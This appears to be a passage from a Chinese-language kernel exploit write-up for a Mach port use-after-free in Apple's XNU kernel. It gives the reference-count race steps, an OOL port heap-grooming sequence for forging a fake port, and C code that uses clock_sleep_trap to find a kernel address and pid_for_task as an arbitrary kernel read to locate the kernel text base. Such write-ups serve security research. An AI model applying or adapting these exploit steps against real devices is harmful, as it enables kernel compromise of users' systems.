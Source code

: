 首先申请一个端口，refer=1，right=1

​	申请stash_prot，refer=2,right=2

​	申请dp，refer=3，right=3

​	释放send right后refer=3，right=2

​	触发漏洞，refer=1，right=0

​	通过验证right是否为0，也就是是否返回notify，从而判断条件竞争是否成功。

​	再释放stash触发野指针。

​	等待端口重用。



### 通过ool ports 构造fake port

#### OOL Port 风水

Port 风水的步骤简要说明如下：

​	创建大量端口

​	消息生成（发送，接收）

​	创建一些用作地址的虚拟端口（MACH_PORT_DEAD）

​	发送消息

​	接收消息

​	重新发送消息



#### 利用

​	申请大量ool port

​	利用漏洞

​	查找被更改的ool port

​	clock_sleep_trap猜测内核地址

```
for(uint64_t guess_clock_addr = 0xffffff8000200000; guess_clock_addr < 0xffffff80F0200000; guess_clock_addr++){
        *(uint64_t *)(fake_port + TASK_GAP_IN_IPC_OBJ) = guess_clock_addr; // Traverse address
        *(uint64_t *)(fake_port + 0xa0) = 0xff;
        if(clock_sleep_trap(manipulated_port, 0, 0, 0, 0) == KERN_SUCCESS){
            printf("[+] found clock_list addr : %llxn", guess_clock_addr);
            return (guess_clock_addr);
        }
   }
```

通过pid_for_task获取内核内容，利用ftp0

```
  for(uint64_t current_addr = clock_list_addr; current_addr > 0xffffff8000200000; current_addr-=0x4000) {
        int32_t kernel_data = 0;
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = current_addr - 0x10;
        pid_for_task(manipulated_port, &kernel_data);
        if (kernel_data == 0xfeedfacf) {
            printf("[+] Found kernel_text addr : %llxn", current_addr);
            return current_addr;
        }
    }
```
